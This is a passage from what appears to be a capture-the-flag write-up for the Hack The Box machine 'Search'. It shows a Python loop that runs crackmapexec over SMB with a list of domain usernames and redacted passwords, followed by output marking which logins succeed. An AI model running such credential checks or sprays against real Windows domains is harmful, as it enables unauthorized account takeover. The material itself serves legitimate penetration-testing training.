 ```python
        'Eliezer.Jordan': '{Redacted}',
        'Hunter.Kirby': '{Redacted}',
        'Sierra.Frye': '{Redacted}',
        'Annabelle.Wells': '{Redacted}',
        'Eve.Galvan': '{Redacted}',
        'Jeramiah.Fritz': '{Redacted}',
        'Abby.Gonzalez': '{Redacted}',
        'Joy.Costa': '{Redacted}',
        'Vincent.Sutton': '{Redacted}',
        'web_svc': '{Redacted}'
    }

    for user, password in domainUsers.items():
        system(f"crackmapexec smb {RHOSTS} -u '{user}' -p '{password}'")
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|17:37:09(HKT)]
└> python3 validate_domain_users.py
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\hope.sharp:{Redacted} 
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\Edgar.Jacobs:{Redacted} 
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Payton.Harmon:{Redacted}  STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Cortez.Hickman:{Redacted}  STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Bobby.Wolf:{Redacted}  STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Margaret.Robinson:{Redacted}  STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Scarlett.Parks:{Redacted}  STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Eliezer.Jordan:{Redacted}  STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Hunter.Kirby:{Redacted}  STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\Sierra.Frye:{Redacted}  
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Annabelle.Wells:{Redacted}  STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Eve.Galvan:{Redacted}  STATUS_LOGON_FAILURE 
```